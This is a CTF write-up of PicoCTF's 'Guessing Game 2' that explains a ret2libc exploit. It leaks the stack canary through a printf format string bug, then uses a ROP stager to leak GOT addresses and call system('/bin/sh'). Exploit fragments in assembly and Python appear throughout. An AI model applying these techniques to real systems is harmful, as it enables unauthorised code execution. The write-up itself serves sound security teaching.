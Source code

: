 ```yaml
---
layout: post
title: "PicoCTF: Guessing Game 2 - Writeup"
date:   2022-03-12 15:46:00 +0000
categories: ctf binary-exploitation
---
```


# Introduction

This challenge is pretty straightforward and provides a great introduction to the ret2libc method of exploitation.

# Gaining an understanding of the program

The program begins by asking the user to guess a *random* number based on the remainder of the address of `rand` as seen in the code snippet below. When guessed correctly, the program asks for a name and proceeds by printing it to the screen.

```c
#define BUFSIZE 512

long get_random() {
    return rand;
}

int do_stuff() {
    long ans = (get_random() % 4096) + 1;	
    printf("What number would you like to guess?\n");
    char guess[BUFSIZE];
    fgets(guess, BUFSIZE, stdin);
    ...
}

void win() {
    char winner[BUFSIZE];
    printf("New winner!\nName? ");
    gets(winner);
    printf("Congrats: ");
    printf(winner);
    printf("\n\n");
}
```

#### Bug hunting

The program contains two critical vulnerabilities, a buffer overflow abetted by `gets` and a format string vulnerability. Either one of these vulnerabilities could result in code execution, however, running `checksec` on the binary yielded security mitigations employed. 

```bash
➜  Guessing Game 2 checksec vuln
[*] 'Guessing Game 2/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

As you can see, the binary is hardened with [RELRO](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro) preventing us from leveraging the format string vulnerability to overwrite the Global Offset Table ([GOT](https://en.wikipedia.org/wiki/Global_Offset_Table)). [DEP](https://en.wikipedia.org/wiki/Executable_space_protection), meaning that we cannot use the buffer overflow vulnerability to jump to the stack. Even if the stack was executable we would still be unable to achieve code execution due to the presence of a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_canaries). 

To successfully exploit this binary, we need to leverage the format string vulnerability to leak the stack cookie and use it in the buffer-overflow vulnerability to allow code execution via a ROP chain. First things first, we need to *guess* the *random* number.

# Bruteforcing the random number {#brute-forcing}

`(get_random() % 4096) + 1` gives the solutions a range from -4095 to +4097 a total of 8192 solutions however we can narrow this down. Firstly, as the function address is coerced to a signed 32-bit integer we know that this integer will be negative as libc is usually based at a high address. Secondly, the addresses of the libc functions always seem to be 16 byte aligned meaning that they go up in increments of 16, massively reducing the range to 256 possible values.

```python
solutions = range(1, -4095, -16)
```

# Leaking the stack canary {#leaking-stack-canary}

Using gdb([gef](https://gef.readthedocs.io/en/master/)) I broke at main, running the gef canary command to find the current stack canary. I used python to generate a format string based on `"%x " * (512 // 3)` and sent it to the program. Counting the distance from the beginning of the stack to the canary gave me an offset of 135. Using offset 135, we can use the format string `"%135$x"` to reliably leak the stack canary.

```bash
gef➤  canary
[+] The canary of process 78855 is at 0xffffd30b, value is 0x88397800
```

```bash
Congrats: 200 f7fa2600 804877d 1 fffffad1 fffffad1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 f7dd0078 f2f70100 80489fc 8049fbc ffffd098 804888c 0 0 3e8 1 ffffd0b0 f7fa2000 0 f7d9b4ca ffffd31b ffffd174 f7fa2000 f7d9b4ca 1 ffffd174 ffffd17c ffffd0d0 f7fa2000 80487ff 1 ffffd174 f7fa2000 0 ffffd17c 0 eb338acc a7fbe6dc 0 0 0 ffffd17c 0
```

# Leaking libc through a ROP chain

Armed with the ability to leak the stack canary, we can now focus on getting our shell. I tried to avoid having to leak libc instead, making a syscall to `execve` with a ROP chain but there were not enough useful gadgets. Though using `ROPgadget`, I found some helpful gadgets which allowed me to make a ROP chain to dump GOT functions and write to data, I’ll be calling this the stager for brevity.

```as
# Addresses obtained using IDA

.equ DATA_OFFSET, 0x804A000
.equ GOT_IO_GETS_OFFSET, 0x8049FCC
.equ GOT_IO_PRINTF_OFFSET, 0x8049FC8
.equ GOT_IO_FGETS_OFFSET, 0x8049FD0
.equ GOT_GETEGID_OFFSET, 0x8049FD8

.macro print fmt, addr
    .long 0x08048470    # _printf@plt
    .long 0x0804844e    # add esp, 8 ; pop ebx ; ret
    .long \fmt
    .long \addr
    .long 0x0           # padding
.endm

.macro gets buffer
    .long 0x8048480     # gets@plt
    .long 0x804844e     # add esp, 8; pop ebx; ret
    .long \buffer
    .quad 0x0           # padding
.endm

.global _start

_start:
    gets DATA_OFFSET
    print DATA_OFFSET, GOT_IO_GETS_OFFSET
    print DATA_OFFSET, GOT_IO_PRINTF_OFFSET
    print DATA_OFFSET, GOT_IO_FGETS_OFFSET
    print DATA_OFFSET, GOT_GETEGID_OFFSET
    gets DATA_OFFSET
    .long 0x80487FF     # main (restart app)
```

The stager works by waiting for input from stdin and writing it to a writable section in the binary. We are able to use a hardcoded address as the binary is not a PIE. After input is received the stager uses the data written as the format string argument to `printf` and proceeds to use this format string to dump GOT entries. The stager waits for one last input to write to the writable section and then restarts the app by returning to `main`.

#### Getting the stager running

We now need to overwrite the return address to an address we control. Using gef's `pattern create` command to create a string and pass it to the application we'll be able to obtain the offset to the return address. Using the information gained I was able to make this python function.

```python
def create_rop_chain(stack_cookie: int, stager: BinaryIO) -> bytes:
    exploit =  b'A' * 512           # Padding
    exploit += p32(stack_cookie)    # Stack cookie
    exploit += b'A' * 12            # Offset to EIP
    exploit += stager.read()        # EIP
    return exploit
```

#### Finding the libc version on the server

Now that we are able to run our stager we'll pass it `%.4s` as the first argument for the format string and then recieve the GOT entry for `gets`. The stager will send us a 4 byte string containing the address which can be converted to something useable using `int.from_bytes` in python. Now that we have the addresses we can use a [libc database](https://libc.blukat.me/) to find the libc version running on the server so that we can get the offsets of functions in that libc binary. Using this I found the libc version to be `libc6-i386_2.27-3ubuntu1.4_amd64.so`. Thankfully, the libc database search provides us with offsets to useful functions. For the final input to the stager we can send it `/bin/sh` to write to the data section for us to pass it to system and get a shell.

![libc database search](/assets/images/libc_database_search.png)

# Popping a shell

Subtracting the GOT entry to `gets` from the offset of `gets` in the libc binary we can find the base address for libc. Using this we can contruct the final ROP chain and call system with the binary path being a pointer to the data section with the `/bin/sh` string we just wrote using the stager.

```python
exploit =  p32(libc + LIBC_SYSTEM_OFFSET)   # system
exploit += p32(libc + LIBC_EXIT_OFFSET)     # exit when routine complete
exploit += p32(DATA_OFFSET)                 # /bin/sh
```

# The exploit

Here is the complete [source code](https://gist.github.com/aidnzz/5631bc65c38318fe74dd23e0390c9633). Using [pwntools](https://docs.pwntools.com/en/stable/) really simplifies exploit development and features some really good logging utilities.

<script id="asciicast-dKo2JK5qNYfD9ln8n8zp4gKvy" src="https://asciinema.org/a/dKo2JK5qNYfD9ln8n8zp4gKvy.js" async data-size="small"></script>
